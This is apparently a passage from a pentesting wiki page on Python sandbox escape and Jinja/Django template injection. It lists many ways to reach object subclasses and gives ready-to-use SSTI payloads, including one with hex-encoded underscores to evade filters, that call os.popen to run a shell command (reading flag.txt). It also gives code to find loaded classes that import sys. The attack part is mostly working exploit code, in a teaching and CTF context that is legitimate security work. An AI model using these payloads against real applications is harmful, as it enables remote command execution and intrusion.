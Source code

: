 Here I want to explain how to easily discover **more dangerous functionalities loaded** and propose more reliable exploits.

#### Accessing subclasses with bypasses

One of the most sensitive parts of this technique is to be able to **access the base subclasses**. In the previous examples this was done using `''.__class__.__base__.__subclasses__()` but there are **other possible ways**:

```python
#You can access the base from mostly anywhere (in regular conditions)
"".__class__.__base__.__subclasses__()
[].__class__.__base__.__subclasses__()
{}.__class__.__base__.__subclasses__()
().__class__.__base__.__subclasses__()
(1).__class__.__base__.__subclasses__()
bool.__class__.__base__.__subclasses__()
print.__class__.__base__.__subclasses__()
open.__class__.__base__.__subclasses__()
defined_func.__class__.__base__.__subclasses__()

#You can also access it without "__base__" or "__class__"
## You can apply the previous technique also here
"".__class__.__bases__[0].__subclasses__()
"".__class__.__mro__[1].__subclasses__()
"".__getattribute__("__class__").mro()[1].__subclasses__()
"".__getattribute__("__class__").__base__.__subclasses__()

#If attr is present you can access everything as string
## This is common in Djanjo (and Jinja) environments
(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat+flag.txt').read()
(''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('popen'))('cat+flag.txt').read()
```

### Finding dangerous libraries loaded

For example, knowing that with the library **`sys`** it's possible to **import arbitrary libraries**, you can search for all the **modules loaded that have imported sys inside of them**:

```python
[ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ]
['_ModuleLock', '_DummyModuleLock', '_ModuleLockManager', 'ModuleSpec', 'FileLoader', '_NamespacePath', '_NamespaceLoader', 'FileFinder', 'zipimporter', '_ZipImportResourceReader', 'IncrementalEncoder', 'IncrementalDecoder', 'StreamReaderWriter', 'StreamRecoder', '_wrap_close', 'Quitter', '_Printer', 'WarningMessage', 'catch_warnings', '_GeneratorContextManagerBase', '_BaseExitStack', 'Untokenizer', 'FrameSummary', 'TracebackException', 'CompletedProcess', 'Popen', 'finalize', 'NullImporter', '_HackedGetData', '_localized_month', '_localized_day', 'Calendar', 'different_locale', 'SSLObject', 'Request', 'OpenerDirector', 'HTTPPasswordMgr', 'AbstractBasicAuthHandler', 'AbstractDigestAuthHandler', 'URLopener', '_PaddedFile', 'CompressedValue', 'LogRecord', 'PercentStyle', 'Formatter', 'BufferingFormatter', 'Filter', 'Filterer', 'PlaceHolder', 'Manager', 'LoggerAdapter', '_LazyDescr', '_SixMetaPathImporter', 'MimeTypes', 'ConnectionPool', '_LazyDescr', '_SixMetaPathImporter', 'Bytecode', 'BlockFinder', 'Parameter', 'BoundArguments', 'Signature', '_DeprecatedValue', '_ModuleWithDeprecations', 'Scrypt', 'WrappedSocket', 'PyOpenSSLContext', 'ZipInfo', 'LZMACompressor', 'LZMADecompressor', '_SharedFile', '_Tellable', 'ZipFile', 'Path', '_Flavour', '_Selector', 'JSONDecoder', 'Response', 'monkeypatch', 'InstallProgress', 'TextProgress', 'BaseDependency', 'Origin', 'Version', 'Package', '_Framer', '_Unframer', '_Pickler', '_Unpickler', 'NullTranslations']
```
